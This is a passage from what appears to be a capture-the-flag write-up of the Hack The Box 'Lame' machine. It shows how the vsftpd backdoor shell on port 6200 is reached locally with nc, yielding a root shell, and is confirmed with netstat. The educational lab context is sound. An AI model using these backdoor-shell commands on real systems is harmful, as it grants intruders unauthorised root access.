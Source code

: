 
The firewall must be blocking a lot.

That means that if the backdoor is triggered, and starts listening on
6200, it's likely not reachable from my host. I'll test. For
demonstration purposes, I'll switch to the user on the box, makis:



    root@lame:/etc# su - makis -c bash
    makis@lame:~$ nc 127.0.0.1 6200
    (UNKNOWN) [127.0.0.1] 6200 (?) : Connection refused



I'm unable to connect to the backdoor. When I trigger the backdoor
again, now I can connect and get a shell as root:



    makis@lame:~$ nc 127.0.0.1 6200
    ‍id
    uid=0(root) gid=0(root)



I can see the port is now listening:



    root@lame:/etc# netstat -tnlp | grep 6200
    tcp        0      0 0.0.0.0:6200            0.0.0.0:*               LISTEN      5580/vsftpd  




[Lame distcc + Privesc »](/htb-lame-more.md)






